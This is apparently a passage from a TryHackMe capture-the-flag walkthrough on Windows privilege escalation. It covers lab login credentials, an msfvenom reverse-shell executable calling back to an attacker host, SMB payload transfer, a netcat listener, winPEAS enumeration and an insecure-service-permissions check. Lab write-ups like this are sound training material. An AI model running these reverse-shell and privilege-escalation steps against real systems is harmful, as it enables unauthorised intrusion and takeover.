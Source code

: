 # 6 - Windows Priv Esc

oom Link --> [https://tryhackme.com/room/windows10privesc](https://tryhackme.com/room/windows10privesc)

Vpn connect -->  `xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.16.33`

#### Generate a Reverse Shell Executable

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe`

Copying the payload to the victim using SMB.

`smbserver.py kali .` - kali is the name of the share.

`copy \\kali_ip\kali\reverse.exe` - on victim to get the file.

Setup a listener `nc -nvlp 53` , Launch the file and catch the shell.

## Priv Esc Vectors

We can use winPEAS.exe to search for priv esc vectors -

`.\winPEASany.exe quite sservicesinfo`&#x20;

### 1 - Service Exploits - Insecure Service Permissions

Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:

`C:\PrivEsc\accesschk.exe /accepteula -uwcqve user daclsvc`

<figure><img src=".gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>1</p></figcaption></figure>

It shows the "user" account has the permission to change the service config (SERVICE\_CHANGE\_CONFIG).

Query the service and note that it runs with SYSTEM privileges (SERVICE\_START\_NAME):

`sc qc daclsvc`

<figure><img src=".gitbook/assets/image (12) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>2</p></figcaption></figure>
